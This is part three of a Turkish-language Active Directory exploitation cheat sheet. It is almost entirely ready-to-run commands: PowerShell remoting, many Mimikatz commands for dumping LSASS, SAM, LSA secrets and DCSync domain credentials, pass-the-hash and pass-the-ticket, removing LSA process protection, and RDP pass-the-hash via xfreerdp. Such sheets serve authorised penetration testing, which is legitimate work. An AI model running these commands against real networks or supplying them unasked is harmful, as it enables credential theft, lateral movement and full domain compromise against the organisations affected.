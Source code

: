 # Active Directory Exploitation Cheat Sheet - Bölüm 3

## Uzak Komut Çalıştırma ve Oturum Başlatma

- **Komut Çalıştır ve Oturum Başlat:**  
  ```powershell
  Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess
  Enter-PSSession -Session $sess
  ```

### Uzaktan Durumsal Komutlar Çalıştırma

- **Yeni Oturum Oluştur:**  
  ```powershell
  $sess = New-PSSession -ComputerName <NameOfComputer>
  ```

- **Oturum Üzerinde Komut Çalıştır:**  
  ```powershell
  Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
  ```

- **Komut Sonucunu Kontrol Et:**  
  ```powershell
  Invoke-Command -Session $sess -ScriptBlock {$ps}
  ```

## Mimikatz Kullanımı

- **LSASS Dump Al:**  
  ```mimikatz
  privilege::debug
  token::elevate
  sekurlsa::logonpasswords
  ```

- **Pass The Hash:**  
  ```mimikatz
  privilege::debug
  sekurlsa::pth /user:<UserName> /ntlm:<NTLMHash> /domain:<DomainFQDN>
  ```

- **Kerberos Ticketlerini Listele:**  
  `mimikatz sekurlsa::tickets`

- **Local Terminal Services Kimlik Bilgilerini Dump Et:**  
  `mimikatz sekurlsa::tspkg`

- **LSASS'i Dosyaya Kaydet ve Dump Et:**  
  `mimikatz sekurlsa::minidump c:\temp\lsass.dmp`

- **MasterKeyleri Listele:**  
  `mimikatz sekurlsa::dpapi`

- **Yerel Kerberos AES Anahtarlarını Listele:**  
  `mimikatz sekurlsa::ekeys`

- **SAM Veritabanını Dump Et:**  
  `mimikatz lsadump::sam`

- **SECRETS Veritabanını Dump Et:**  
  `mimikatz lsadump::secrets`

- **Domain Controller Kimlik Bilgilerini Inject Et ve Dump Et:**  
  ```mimikatz
  privilege::debug
  token::elevate
  lsadump::lsa /inject
  ```

- **Domain Kimlik Bilgilerini LSASS'e Dokunmadan Dump Et:**  
  `mimikatz lsadump::dcsync /domain:<DomainFQDN> /all`

- **Yerel Kerberos Kimlik Bilgilerini Listele ve Dump Et:**  
  `mimikatz kerberos::list /dump`

- **Pass The Ticket:**  
  `mimikatz kerberos::ptt <PathToKirbiFile>`

- **TS/RDP Oturumlarını Listele:**  
  `mimikatz ts::sessions`

- **Vault Kimlik Bilgilerini Listele:**  
  `mimikatz vault::list`

### LSA Korumasını Atlama

- **LSA Korumalı Süreç (Kernel Tabanlı Atlatma):**
  ```
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
  !+
  !processprotect /process:lsass.exe /remove
  sekurlsa::logonpasswords
  ```

- **LSAISO Sanallaştırma ve Credential Guard:**
  ```
  tasklist |findstr lsaiso
  misc::memssp
  ```

## Remote Desktop Protocol (RDP)

### RestrictedAdmin ile Hash İle Geçiş

- **Mimikatz Kullanımı:**  
  ```mimikatz
  privilege::debug
  sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"
  ```

- **xFreeRDP Kullanımı:**  
  `xfreerdp /u:<Username> /pth:<NTLMHash> /d:<DomainName> /v:<Target>`
  `xfreerdp +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8 /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>`

